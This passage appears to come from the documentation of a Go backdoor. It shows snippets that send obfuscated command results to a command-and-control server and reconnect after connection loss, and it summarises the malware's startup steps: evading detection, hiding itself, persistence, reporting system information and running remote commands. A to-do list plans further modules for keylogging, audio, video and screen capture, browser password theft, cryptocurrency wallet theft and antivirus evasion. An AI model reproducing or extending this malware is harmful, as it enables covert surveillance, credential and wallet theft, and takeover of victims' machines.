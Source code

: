```go
    // Send result
    conn.Write([]byte(obfuscate(result + "\n")))
}
```
- Waits for server commands
- Decrypts received commands
- Executes commands or loads modules
- Sends encrypted results

10. **Connection Loss Handling**:
```go
// Reconnect after delay
time.Sleep(ReconnectDelay * time.Second)
```
- Waits specified time
- Attempts to reconnect
- Cycle starts over

In summary, at startup the backdoor:
1. Establishes detection protection
2. Masks its presence
3. Ensures persistence
4. Establishes secure C&C server connection
5. Sends system information
6. Enters command waiting and execution mode
7. Automatically attempts to restore lost connections 

## TODO: Proposed Improvements

### 1. Network Enhancements
- SOCKS5 and HTTP proxy support
- P2P protocol for client communication
- Backup C&C servers
- DNS tunneling for firewall bypass
- Tor support for anonymity

### 2. Functionality Extensions
- Encrypted keylogger module
- Audio/video capture module
- Screen capture module
- Browser password stealer module
- Cryptocurrency wallet stealer module
- Windows registry manipulation module
- Advanced filesystem operations module

### 3. Security Improvements
- Enhanced traffic encryption
- Advanced antivirus evasion techniques
- Additional persistence methods
- Improved process masking techniques
- Anti-reverse engineering protection
- Code obfuscation enhancements
